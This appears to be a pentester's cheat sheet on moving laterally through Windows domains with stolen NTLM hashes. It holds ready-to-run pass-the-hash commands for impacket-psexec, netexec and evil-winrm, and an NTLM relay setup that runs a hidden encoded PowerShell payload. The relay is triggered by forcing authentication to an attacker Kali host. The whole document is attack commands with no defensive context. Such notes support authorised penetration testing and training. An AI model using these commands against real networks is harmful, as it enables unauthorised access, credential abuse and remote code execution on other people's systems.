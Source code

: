 ### ***Move using Hashes and Tickets (LAr for ALL)***

 - ***Try targeting HIGH PRIV users to Move around***

# ***Pass the Hash (DU)***
***Works on Domain accounts and the BUILTIN-Administrator account (for Local Admin group) only!***
## impacket (smb)
```shell
# Domain / Local
impacket-psexec -dc-ip `dc` `dom`/user@`tip` -hashes :HASH
impacket-psexec Administrator@`tip` -hashes :HASH

# other EXECS
impacket-wmiexec
impacket-smbclient
impacket-smbexec
impacket-atexec
impacket-dcomexec
```
## nxc
```shell
nxc smb `tip` -d `dom` -u 'AdminUser' -H HASH -x "COMMAND" [ --local-auth ] [ --verbose ]
# Other Protocols
wmi
ldap
ssh
winrm
rdp
vnc
```
## NTLMv2 Relay
```shell
# 1 Setup in Kali
impacket-ntlmrelayx --no-http-server -smb2support -t RELAY_TO_IP -c "powershell.exe -nop -w hidden -enc encoded_payload..."


# 2 Force auth
dir \\KALI_IP\path\to\test
```
## nxc
```shell
nxc smb `tip` -d DOMAIN -u USER -H HASH -x "COMMAND"
# Can use --local-auth instead of -d
# -t [threads]
# --verbose
# Other Protocols
# ftp
# rdp
# mssql
# smb
# ldap
# ssh
# winrm
```
## evilwinrm
```shell
evil-winrm -i `tip` -u USER -H HASH
```